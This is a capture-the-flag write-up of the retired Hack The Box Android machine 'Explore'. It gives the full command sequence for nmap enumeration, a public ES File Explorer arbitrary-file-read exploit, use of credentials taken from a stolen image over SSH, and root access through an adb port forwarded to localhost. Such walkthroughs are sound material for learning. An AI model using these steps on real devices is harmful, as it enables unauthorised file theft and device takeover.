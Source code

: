 # Explore

This is the write-up for the box Explore that got retired at the 30th October 2021.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.247    explore.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/explore.nmap 10.10.10.247
```

```
PORT     STATE    SERVICE VERSION
2222/tcp open     ssh     (protocol 2.0)
| ssh-hostkey:
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-SSH Server - Banana Studio
5555/tcp filtered freeciv
```

The SSH service is run with **Banana Studio**, which is an Android application and port 5555 is filtered.

Full TCP port scan:
```
nmap -p- 10.10.10.247
```
```
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
42135/tcp open     unknown
42753/tcp open     unknown
59777/tcp open     unknown
```

Service scan on found ports:
```
nmap -p 42135,42753,59777 -sC -sV 10.10.10.247
```
```
42135/tcp open  http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
42753/tcp open  unknown
| fingerprint-strings:
|   GenericLines:
(...)
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```

When researching the ports, the port 59777 is used by the Android app **ES File Explorer** and it has an [Arbitrary File Read vulnerability](https://www.exploit-db.com/exploits/50070).

## Exploiting ES File Explorer (Port 59777)

The web service on port 59777 responds with a HTTP status code _500 Internal Server Error_ and the following message:
```
SERVER INTERNAL ERROR: Serve() returned a null response.
```

Downloading the exploit script with **Searchsploit**:
```
searchsploit -m android/remote/50070.py
```

Using the _getDeviceInfo_ parameter of the script:
```
python3 50070.py getDeviceInfo 10.10.10.247
```
```
ftpRoot : /sdcard
ftpPort : 3721
```

Listing all files with the _listFiles_ and _listPics_ parameter:
```
python3 50070.py listFiles 10.10.10.247

python3 50070.py listPics 10.10.10.247
```

The picture _creds.jpg_ sounds interesting, so it can be downloaded:
```
python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg
```

It is a handwritten note with potential credentials:
```
Kristi:Kr1sT!5h@Rp3xPl0r3!
```

The credentials are working on the SSH service on port 2222:
```
ssh -p 2222 kristi@10.10.10.247
```

> NOTE: The flag can be found in _/storage/emulated/0/user.txt_.

## Privilege Escalation

When checking the open ports, the command `ss -lnpt` shows that port 5555 is listening on localhost.
On an Android system this port is used by the **Android Debug Bridge (adb)**.

Forwarding the port to our local client with the **SSH command line**:
```
ssh> -L 5555:localhost:5555
Forwarding port.
```

Connecting to the Android debug bridge:
```
adb connect localhost:5555
```

Listing all devices
```
adb devices -l
```
```
List of devices attached
emulator-5554          device product:android_x86_64 model:VMware_Virtual_Platform device:x86_64 transport_id:1
localhost:5555         device product:android_x86_64 model:VMware_Virtual_Platform device:x86_64 transport_id:2
```

Starting a shell on the device:
```
adb -s localhost:5555 shell
```

This starts a shell as the user _shell_ which can escalate privileges to root!
```
x86_64:/ $ su -
```

> NOTE: The flag can be found in _/data/root.txt_.
